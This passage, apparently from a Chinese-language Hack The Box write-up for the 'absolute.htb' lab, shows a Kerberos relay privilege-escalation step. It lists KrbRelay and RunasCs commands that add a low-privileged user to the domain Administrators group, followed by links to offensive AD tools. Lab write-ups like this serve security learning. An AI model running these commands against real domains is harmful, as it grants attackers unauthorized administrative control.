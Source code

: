 ## 05. Kerberos Relay提权

```bash
kali@kali[~]$ .\CheckPort.exe

kali@kali[~]$ .\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10

kali@kali[~]$ .\runascs.exe winrm_user -d absolute.htb TotallyNotACorrectPassword -l 9 "qwinsta"

kali@kali[~]$ .\runascs.exe winrm_user -d absolute.htb TotallyNotACorrectPassword -l 9 "C:\Users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10"

kali@kali[~]$ .\runascs.exe winrm_user -d absolute.htb TotallyNotACorrectPassword -l 9 "C:\Users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10 -add-groupmember Administrators winrm_user"

```



---

## 参考链接
1. 文章：ASREPRoast攻击
   https://www.thehacker.recipes/ad/movement/kerberos/asreproast
2. 文章：RID爆破
   https://www.thehacker.recipes/ad/recon/ms-rpc#rid-cycling
3. 文章：使用 Kerberos 进行中继攻击
   https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
4. 文章：Windows 漏洞利用技巧：中继 DCOM 身份认证
   https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html
5. 工具：NetExec
   https://github.com/Pennyw0rth/NetExec
6. 工具：Impacket
   https://github.com/fortra/impacket
7. 工具：evil-winrm
   https://github.com/Hackplayers/evil-winrm
8. 工具：RustScan
   https://github.com/RustScan/RustScan
9. 工具：Responder
   https://github.com/SpiderLabs/Responder
10. 工具：Certipy
   https://github.com/ly4k/Certipy
11. 工具：KrbRelay
    https://github.com/cube0x0/KrbRelay
12. 工具：RunasCs
    https://github.com/antonioCoco/RunasCs
